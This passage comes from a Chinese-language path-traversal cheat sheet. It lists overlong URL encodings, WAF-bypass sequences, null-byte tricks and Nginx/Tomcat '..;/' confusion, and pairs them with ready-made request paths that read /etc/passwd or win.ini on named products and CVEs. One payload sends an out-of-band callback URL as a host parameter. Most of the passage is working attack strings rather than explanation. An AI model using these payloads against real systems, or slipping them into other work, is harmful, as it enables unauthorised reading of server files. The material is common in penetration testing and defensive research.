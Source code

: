 | 字符 | 过长编码 |
| --- | -------- |
| `.` | `%c0%2e`, `%e0%40%ae`, `%c0%ae` |
| `/` | `%c0%af`, `%e0%80%af`, `%c0%2f` |
| `\` | `%c0%5c`, `%c0%80%5c` |

### 混淆路径

有时您会遇到一个会删除`../`字符的WAF，只需重复它们即可。

```powershell
..././
...\.\
```

**示例：** Mirasys DVMS Workstation <=5.12.6

```ps1
{{BaseURL}}/.../.../.../.../.../.../.../.../.../windows/win.ini
```

### 空字节

空字节(`%00`)，也称为空字符，是许多编程语言和系统中的特殊控制字符(0x00)。在C和C++等语言中，它通常用作字符串终止符。在目录遍历攻击中，空字节用于操纵或绕过服务器端输入验证机制。

**示例：** Homematic CCU3 CVE-2019-9726

```js
{{BaseURL}}/.%00./.%00./etc/passwd
```

**示例：** Kyocera Printer d-COPIA253MF CVE-2020-23575

```js
{{BaseURL}}/wlmeng/../../../../../../../../../../../etc/passwd%00index.htm
```

### 反向代理URL实现

Nginx将`/..;/`视为目录，而Tomcat将其视为`/../`，这允许我们访问任意的servlet。

```powershell
..;/
```

**示例**：Pascom云电话系统 CVE-2021-45967

NGINX和后端Tomcat服务器之间的配置错误导致Tomcat服务器中的路径遍历，暴露出意外的端点。

```js
{{BaseURL}}/services/pluginscript/..;/..;/..;/getFavicon?host={{interactsh-url}}
```

## 利用

这些利用方法影响特定技术的机制。
